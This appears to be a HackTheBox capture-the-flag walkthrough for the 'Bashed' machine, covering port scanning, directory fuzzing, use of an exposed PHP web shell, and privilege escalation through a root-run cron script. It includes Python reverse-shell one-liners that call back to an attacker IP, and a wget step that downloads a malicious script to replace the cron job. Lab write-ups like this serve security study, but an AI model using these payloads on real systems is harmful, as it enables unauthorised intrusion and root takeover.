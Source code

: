 ![image](https://github.com/h4md153v63n/CTFs/assets/5091265/db5e4f9b-b6bc-43c8-98a9-e7fb7ba2aa16)# Bashed

**Machine ip:** 10.10.10.68

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.68 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.68`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1ff38f3a-a5aa-4493-a119-fa3ad2067bf8)

+ Navigate to `http://10.10.10.68`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a21b3006-628d-4a28-ad8b-4e7cfa141a30)

+ Directory fuzzing:
```
feroxbuster -u http://10.10.10.68 -x html,php,json,js,sh,cgi,pl,docx,pdf,txt -w /usr/share/wordlists/dirb/common.txt --depth 2 --filter-status 200,403,404,500 -r --extract-links
```
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a24d471b-2314-4886-a94c-b7fb375d928e)

+ Check `http://10.10.10.68/dev/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5fd4e705-edbc-413a-aea1-c21d4bb841fe)

+ Click one of the php files, and gain a shell.
+ Cat user.txt
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a7c07f5a-dc65-41f9-983c-1aa0f5697877)



+ Get revershell:
+ `nc -lnvp 4444`
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

+ `python -c 'import pty; pty.spawn("/bin/bash")'`
+ `sudo -ll`
+ `sudo -u scriptmanager /bin/bash`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c5a05271-ac94-4d4e-9dd7-418a80eec712)

## Privilege Escalation
+ `cd /`
+ `ls -la`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/896f8a81-478c-41a0-a6e9-5729b1894204)

+ `scripts` directory is interesting: `cd scripts`
+ `ls -la`
+ `cat test.py`
+ `cat test.txt`
+ `ls -la`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/66e2654b-e29e-40be-b014-7f4c4dcb3ad4)

+ The last access time of the `test.txt` file changes every minute. The script runs every minute.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/df6a0cd2-5966-4fbb-91b8-5cad62124888)

+ Even `test.txt` file name is changed, exists `test.txt` the same file name each minute again.
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/49b004f3-46e8-42d6-b672-4765d0cd1df4)

+ Create `test.py file` on your attack machine:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

+ Start listener: `nc lnvp 5555`
+ Transfer it to target machine: `python3 -m http.server`
+ Download `wget 10.10.14.5:8000/test.py` and change the name.
+ Get the root shell
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c1b923d8-5e44-4c00-b9ab-c0405253686a)


# References & Alternatives:
+ https://vvmlist.github.io/#bashed
+ https://0xdf.gitlab.io/2018/04/29/htb-bashed.html
+ https://danishzia.medium.com/hackthebox-htb-bashed-walkthrough-ab402b9f4715
+ https://lastlistener.github.io/Walkthroughs--HackTheBox_Bashed_Walkthrough_and_Lessons.html
